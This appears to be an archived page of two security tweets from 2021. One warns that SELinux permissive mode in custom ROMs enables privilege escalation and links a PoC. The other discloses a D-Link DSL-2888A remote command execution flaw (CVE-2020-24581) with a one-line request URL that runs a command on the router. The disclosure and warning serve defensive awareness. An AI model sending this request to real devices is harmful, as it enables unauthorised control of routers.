 
# topjohnwu
**https://twitter.com/topjohnwu/status/1359054106019565571 _at 2021-02-09 08:18:43_**
<blockquote>
Remember when I said using SELinux permissive is really bad? Here is a privilege escalation PoC where the only requirement is SELinux permissive. If you are still releasing custom ROMs/kernels with permissive, YOU ARE LITERALLY BACKDOORING YOUR USERS!
https://t.co/iJ48PeDood
</blockquote>

* https://github.com/vvb2060/Magica

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>21</code></td>
<td>Retweets: <code>164</code></td>
<td>Favorites: <code>578</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1358961456797024263 _at 2021-02-09 02:10:34_**
<blockquote>
D-Link DSL-2888A AU_2.31_V1.1.47ae55 RCE (CVE-2020-24581)

D-link DSL-2888A is a unified service router of China D-link company

PoC
http:/xxx/cgi-bin/execute_cmd.cgi?timestamp=1589333279490&amp;cmd=uname -a

https://t.co/o1vMXImUg4 https://t.co/1t3of3LUbs
</blockquote>

* https://reconshell.com/cve-2020-24581-d-link-dsl-2888a-remote-command-execution/

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EtwAN5EUcAELTAg.jpg" alt="http://pbs.twimg.com/media/EtwAN5EUcAELTAg.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---